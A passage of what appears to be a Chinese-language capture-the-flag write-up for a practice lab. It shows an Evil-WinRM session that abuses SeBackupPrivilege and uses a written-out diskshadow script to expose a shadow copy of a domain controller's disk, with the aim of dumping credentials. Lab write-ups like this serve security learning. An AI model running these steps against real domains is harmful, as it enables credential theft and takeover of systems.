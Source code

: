 首先，让我们看看用户拥有什么特权

```
*Evil-WinRM* PS C:\Users\xyan1d3> whoami /all[...]PRIVILEGES INFORMATION
----------------------Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

有趣的是

```
SeBackupPrivilege             Back up files and directories  Enabled
```

这种特定的权限提升基于为用户分配**权限权限**的行为。它旨在允许用户创建系统的备份副本。该权限允许用户读取所有文件中的任何文件，其中可能还包括一些敏感文件，如 **SAM 文件或系统注册表文件**。从攻击者的角度来看，在获得系统中的初始立足点，然后通过读取 SAM 文件并可能破解系统或网络上的高权限用户的密码，移动到提升的外壳后，就可以利用这一点。

在利用这个漏洞之前，我们需要将域凭证转储到一个文件中。为此，我们将使用 [**DiskShadow(一个 Windows 签名的二进制)**](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#using-diskshadow-a-windows-signed-binary) **。**

准备`diskshadow.txt`

```
- cat diskshadow.txtset metadata C:\tmp\tmp.cabs 
set context persistent nowriters 
add volume c: alias someAlias 
create 
expose %someAlias% h:
```

将此文件上传到机器

`*Evil-WinRM* PS C:\Users\xyan1d3> mkdir C:\tmp
*Evil-WinRM* PS C:\tmp> upload diskshadow.txt`

从创建的目录中执行`diskshadow.exe`

```
*Evil-WinRM* PS C:\tmp> diskshadow.exe /s c:\tmp\diskshadow.txtMicrosoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  HAVEN-DC

-> set metadata C:\tmp\tmp.cabs
-> set context persistent nowriters
-> add volume c: alias someAlias
-> create
Alias someAlias for shadow ID {29b531e8-3c00-49f9-925d-5e1e3937af13} set as environment variable.
Alias VSS_SHADOW_SET for shadow set ID {2c73aeea-cdb0-47d5-85f8-dfe4dfbdbea6} set as environment variable.

Querying all shadow copies with the shadow copy set ID {2c73aeea-cdb0-47d5-85f8-dfe4dfbdbea6}

        * Shadow copy ID = {29b531e8-3c00-49f9-925d-5e1e3937af13}               %someAlias%
                - Shadow copy set: {2c73aeea-cdb0-47d5-85f8-dfe4dfbdbea6}       %VSS_SHADOW_SET%
                - Original count of shadow copies = 1
                - Original volume name: \\?\Volume{115c1f55-0000-0000-0000-602200000000}\ [C:\]
                - Creation time: 7/16/2021 3:45:20 PM
                - Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
                - Originating machine: HAVEN-DC.raz0rblack.thm
                - Service machine: HAVEN-DC.raz0rblack.thm
                - Not exposed
                - Provider ID: {b5946137-7b9f-4925-af80-51abd60b20d5}
                - Attributes:  No_Auto_Release Persistent No_Writers Differential
```